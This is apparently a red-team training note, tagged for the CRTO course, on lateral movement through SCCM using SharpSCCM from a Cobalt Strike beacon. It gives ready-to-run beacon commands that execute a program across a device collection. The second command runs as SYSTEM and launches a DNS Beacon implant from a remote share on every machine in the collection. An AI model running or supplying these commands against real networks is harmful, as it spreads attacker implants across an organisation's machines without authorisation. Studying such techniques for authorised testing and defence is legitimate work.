 
With Full or Application Administrator privileges over a device or a collection ([[Network Account Credentials]]), we can deploy scripts or applications to aid in lateral movement.

#### 🖊️ via Cobalt Strike

1) Test command execution with `exec -n DEV -p <path>` , in this example we execute one command across the entire collection (named DEV):

`beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner`

⚠ If a user is not logged in, then the command won't execute.

2) We can force it to execute as SYSTEM using the `-s` parameter, and this will execute on every machine regardless of whether a user is currently logged in or not.
In this example, we try to upload and execute a DNS Beacon payload.

`beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner`




#### ⚠ Opsec




### Properties
---
📆 created   {{25-02-2024}} 12:10
🏷️ tags: #redteam #crto 

---

